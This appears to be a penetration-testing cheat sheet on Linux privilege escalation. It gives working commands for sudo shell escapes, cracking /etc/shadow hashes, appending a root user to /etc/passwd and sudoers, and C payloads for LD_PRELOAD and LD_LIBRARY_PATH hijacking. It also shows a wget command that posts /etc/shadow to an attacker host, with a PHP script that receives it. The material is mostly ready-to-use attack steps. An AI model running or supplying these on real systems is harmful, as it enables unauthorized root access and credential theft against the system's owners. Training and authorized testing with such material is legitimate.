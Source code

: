 # Sudo Abuse

## Sudo SUIDs (Shell Escape Sequences)

This techniques uses common Unix binaries to bypass local security restrictions and privilaige esclation, read more here: https://github.com/RootInj3c/OSCP-PwK/blob/master/Linux/SUID_Bash.md#gtfobins

Examples:

```
bob@victimlinux:~/#: sudo find /bin -name nano -exec /bin/sh \;
bob@victimlinux:~/#: sudo awk 'BEGIN {system("/bin/sh")}'
bob@victimlinux:~/#: echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
bob@victimlinux:~/#: sudo vim -c '!sh'
```

## Shadow file abuse (trick 1 - Read-Only required)

If shadow file has read permission, copy the root hash and use john the ripprt (JTR) to crack it.

First create unshadow file using the passwd and shadow files:

```
root@kali:~/#: unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
```

Then, feed them in JTR:

```
root@kali:~/#: john unshadow_file --wordlist=/usr/share/wordlists/rockyou.txt
```

## Shadow file abuse (trick 2 - World-Writable required)

Is /etc/shadow is world-writable?

```
bob@victimlinux:~/#: root@kali:~/# ls -la /etc/shadow
-rwxrwxrwx 1 root shadow 1755 Nov 25 06:14 /etc/shadow
```

If so, then let's create us a password:

```
bob@victimlinux:~/#: perl -le ‘print crypt(“Password@973″,”addedsalt”)’
```

Append it as new root user to the passwd file:

```
bob@victimlinux:~/#: echo "hacker:<our_generated_password>:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
```

*NOTE*: Another trick would be reset root password, but it may lead to unstable machine FYI:

```
bob@victimlinux:~/#: echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su

```

Another cool trick (if you have sudo on wget) is to copy your victim /etc/passwd file to your local machine as following:

```
bob@victimlinux:~/#: sudo wget --post-file=/etc/shadow 192.168.10.1:8080
```

Example Backend code (PHP) on you kali machine:

```
<?php
$capture = file_get_contents("php://input");
$myfile = fopen("passwd", "w") or die("Unable to open file!");
fwrite($myfile, $capture);
fclose($myfile);
echo "Logged 1337Hacker :)";
?>
```

Change the passwd file by the same way described above offline, then download it back to victim host using Wget command:

```
bob@victimlinux:~/#: sudo wget http://192.168.10.1:8080/passwd -O /etc/passwd
```

## Sudoers Abuse

The sudoers file is like rules-file considering the decision making about granting an access to user.

For example:

```
bob@victimlinux:~/#: sudo -l
Matching Defaults entries for root on kali:
    env_reset, mail_badpass

User user may run the following commands on kali:
    root ALL=(ALL) ALL
    bob ALL = (root) NOPASSWD: /usr/bin/find
...
```

The first line means that user can execute from any terminal, under any user with any command.
The 2nd line means that user bob could execute from any terminal and execute find utility as root user without password.

To abuse it, let's try to add our user (www-data) with no password to /etc/sudoers file:

```
bob@victimlinux:~/#: echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

### LD_PRELOAD

When using *sudo -l* command, if you notice LD_PRELOAD and environment variable env_keep option, for example:

```
bob@victimlinux:~/#: sudo -l
Matching Defaults entries for user on this host:
     env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
...
```

Then we create our .so (shared libarary) file as following:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
   unsetenv("LD_PRELOAD");
   setresuid(0,0,0);
   system("/bin/bash -p");
}
```

Compile as following:

```
bob@victimlinux:~/#: gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

And we execute our file using any allowed program using sudo:

```
bob@victimlinux:~/#: sudo LD_PRELOAD=/tmp/preload.so apache2
# id
uid=0(root) gid=0(root) groups=0(root)
```

*NOTE*: Depend on your machine, this trick disabled by default for most linux dists.


### LD_LIBRARY_PATH

If some program has shared libraries, we may creating a shared library with the same name as one used by a program, and setting LD_LIBRARY_PATH to its parent directory, the program will load our shared library instead.

To test wheter shared libraries program use we'll use ldd command:

```
bob@victimlinux:~/#: ldd /usr/sbin/wget
linux-vdso.so.1 => (0x00007fff063ff000)
...
libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f7d4199d000)
libdl.so.2 => /lib/libdl.so.2 (0x00007f7d41798000)
```

Let's create our payload:

```
#include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));
void hijack() {
   unsetenv("LD_LIBRARY_PATH");
   setresuid(0,0,0);
   system("/bin/bash -p");
}
```

Compiling as following:

```
bob@victimlinux:~/#: gcc -o libcrypt.so.1 -shared -fPIC library_path.c
```

Now the next step really depend on the shared library we would like to hijack. For most case, it just try one-by-one:

```
bob@victimlinux:~/#: sudo LD_LIBRARY_PATH=. apache2
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Binary capabilities

Similiar to SUID, the binary capabilities may give additional permission to preform network operation such as intercept network.

First lets running the getcap command on commonly used directories:

```
bob@victimlinux:~/#: getcap -r /bin/;getcap -r /usr/bin/;getcap -r /usr/sbin/;
/usr/bin/tcpdump = cap_net_admin,cap_net_raw+eip
/usr/bin/fping = cap_net_raw+ep
/usr/bin/python = cap_setuid+eip
/usr/bin/slock = cap_dac_override,cap_sys_resource+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/ping = cap_net_raw+ep
```

Now we can run tcpdump on all the interfaces to intercept network packets.

But more important as we found Python has *cap_setuid+eip* capabilities we can esclate to root using the famouse trick:

```
bob@victimlinux:~/#: python -c 'import os; os.setuid(0); os.system("/bin/bash ")'
```

Read more about binary capabilities here: http://man7.org/linux/man-pages/man7/capabilities.7.html

